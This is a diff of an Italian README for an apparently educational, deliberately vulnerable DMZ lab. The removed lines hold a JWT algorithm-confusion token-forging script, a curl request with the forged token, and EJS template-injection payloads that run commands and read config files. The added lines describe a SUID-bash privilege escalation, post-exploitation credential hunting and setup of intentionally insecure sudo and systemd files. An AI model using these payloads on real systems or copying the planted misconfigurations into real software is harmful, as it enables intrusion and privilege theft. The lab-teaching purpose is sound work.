

Before and after one commit to jsk9990/DMZ, a Markdown page: README.md, the part around one of its changes. Shown at 94% size. GitHub-like rendering; blank space fills up the shorter version.

````diff
--- a/README.md
+++ b/README.md
@@ -88,49 +48,53 @@ Riceve JWT con `role: user`. Decodifica per capire la struttura.
 
-### Fase 4 — JWT Algorithm Confusion (RS256 → HS256)
-```python
-import jwt, base64
-from cryptography.hazmat.primitives import serialization
+### Fase 5: Privilege Escalation (Security Misconfiguration)
+La scalata ai privilegi massimi sfrutta il principio del "Least Privilege" implementato in modo errato dagli amministratori.
+* L'enumerazione locale (`sudo -l`) rivela che l'utente `legacyreport` possiede diritti sudo *passwordless* per riavviare il demone `/etc/systemd/system/legacy-monitor.service`.
+* L'eseguibile richiamato dal demone (`/opt/app/monitor.sh`) risulta scrivibile dall'utente compromesso.
+* L'attaccante sovrascrive lo script iniettando istruzioni per copiare la `/bin/bash` in locale e assegnarle il bit **SUID**. Riavviando il servizio, la trappola scatta ed elargisce una shell `root`.
 
-# Carica la public key ottenuta via XXE
-with open('public.pem', 'rb') as f:
-    pub_key = f.read()
+### Fase 6: Post-Exploitation e Network Discovery
+Ottenuto l'accesso `root`, l'attaccante raccoglie gli "Artifacts" per pianificare il movimento laterale. Attraverso l'ispezione di file ambientali (`.env`), script di debug dimenticati (`test_backend.py`) e la cronologia dell'amministratore (`.bash_history`), scopre:
+* La topologia della rete interna isolata (`10.0.0.x`).
+* Il Target Intermedio (**Legacy-Data-Processor**: `10.0.0.5:5000`).
+* Il vettore di attacco futuro: l'utilizzo di serializzazione nativa Python (`pickle` e `base64`) per la trasmissione dati inter-server (Insecure Deserialization).
 
-# Forgia token con HS256 firmato con la chiave pubblica come secret
-forged = jwt.encode(
-    {"user": "admin", "role": "admin"},
-    pub_key,
-    algorithm="HS256"
-)
-print(forged)
-```
+---
 
-### Fase 5 — Accesso admin
-```bash
-curl -H "Authorization: Bearer <token_forgiato>" \
-     http://<VM_IP>:3000/management/dashboard
-```
+## 🎓 Ostacoli Tecnici e Realismo del Sistema
 
-### Fase 6 — SSTI → RCE
-Nel campo "Corpo del messaggio" del form template:
-```
-<%= global.process.mainModule.require('child_process').execSync('id').toString() %>
-```
-Oppure lettura file:
-```
-<%= global.process.mainModule.require('fs').readFileSync('/opt/app/.config','utf8') %>
-```
+Questo laboratorio è ingegnerizzato per riflettere dinamiche reali di mitigazione e hardening, obbligando l'attaccante a deviare dai percorsi di exploit standard:
+* **Il Flaw Logico JWT:** Il backend applica un parsing manuale dell'header JWT per isolare e dimostrare accademicamente la falla architetturale originaria, senza l'interferenza delle "regex patch" aggiunte silenziosamente dalle librerie moderne, richiedendo una forgiatura chirurgica tramite script custom o `jwt_tool`.
+* **Systemd PrivateTmp & nosuid:** Durante la Privilege Escalation, i tentativi di creare la shell SUID in `/tmp` vengono intercettati e annullati dalle flag `nosuid` e dall'isolamento temporaneo generato dal modulo `PrivateTmp` di systemd.
 
-## Credenziali di accesso (non admin)
-| Username | Password |
-|----------|----------|
-| guest    | guest123 |
-| viewer   | view2024 |
+---
 
-Non esiste un account admin raggiungibile tramite login.
-L'unico modo per ottenere `role: admin` è forgiare il token JWT.
+## 🛠️ Setup del Laboratorio (Istruzioni di Deploy)
 
-## Note per il docente
-- `/opt/app/.config` contiene `INTERNAL_NETWORK_HOST` e credenziali DB
-  per il pivot alla rete interna (VM successiva)
-- Le vulnerabilità sono documentate nei commenti del codice sorgente
-- Ogni fase è indipendente ma necessaria per quella successiva
+Per ricreare questo ambiente su una macchina virtuale Linux vergine:
+
+1.  **Clonare il repository:**
+    ```bash
+    git clone [https://github.com/TUO-NOME/legacy-report-dmz-lab.git](https://github.com/TUO-NOME/legacy-report-dmz-lab.git)
+    cd legacy-report-dmz-lab
+    ```
+
+2.  **Installare le dipendenze dell'app:**
+    ```bash
+    cd src
+    npm install
+    ```
+
+3.  **Configurare le vulnerabilità di sistema (Richiede privilegi di Root):**
+    Configurare l'utente di servizio (`legacyreport`) e copiare i file dalla cartella `vulnerable_configs/` nelle rispettive directory di sistema preservando i permessi di scrittura intenzionalmente errati:
+    * `/etc/systemd/system/legacy-monitor.service` (Demone)
+    * `/etc/sudoers.d/legacy-monitor` (Policy Sudo)
+    * `/opt/app/monitor.sh` (Script esca)
+    * `/root/.bash_history` (Indizi Post-Exploitation)
+
+4.  **Avviare l'applicazione:**
+    ```bash
+    node app.js
+    ```
+
+---
+*Disclaimer: Questo progetto è stato realizzato esclusivamente a scopo accademico e di ricerca. Qualsiasi utilizzo delle tecniche qui descritte su sistemi non autorizzati è strettamente proibito.*
````
Also changed, not shown: other parts of README.md (+35 -75 lines).
